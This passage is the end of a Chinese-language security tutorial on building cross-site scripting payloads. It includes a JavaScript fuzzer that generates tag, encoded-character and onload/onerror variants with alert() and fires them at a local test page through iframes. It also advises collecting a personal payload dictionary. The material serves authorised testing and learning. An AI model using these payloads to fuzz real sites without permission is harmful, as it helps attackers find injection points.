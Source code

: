 #### 构造 payload

- - -

有了上面的准备，我们可以构造出大量 xss\_payload。  
[![](assets/1698897346-02171f228268b71d4848d1c5c185e55f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191123112944-7df5824c-0da1-1.png)

也可以利用 key 师傅这个 js 脚本，优点很明显能直接弹框的，脚本自己修改下就行。

```bash
var i,j,k,xss,f=0;
var ons = ["onload","onerror"];
var labs = ["a","b","q","br","dd","dl","dt","h1","del","abbr","video","base","audio","details"];
var hexs= ["%09","%00","%0d","%0a"];
for(i=0;i<labs.length;i++){
    for(j=0;j<hexs.length;j++){
        for(k=0;k<ons.length;k++){
            xss = f+'<'+labs[i]+hexs[j]+ons[k]+"=alert("+f+") src=a>a";
            var body = document.getElementsByTagName("body");
            var div = document.createElement("div");
            div.innerHTML = f+"<iframe src=\"http://127.0.0.1/index.php?fuzz="+xss+"\"></iframe>";
            document.body.appendChild(div);
            f = f+1;
        }
    }
}
```

其他脚本可以去 Github 寻找，这样收集构造出属于自己的 xss\_payload.txt 测试时直接 fuzz 看结果，再根据结果进一步 fuzz。

## 后记

- - -

大家平时可以去推特逛逛，HackerOne 精彩 xss 文章等，收集扩展逐步完善自己的字典。
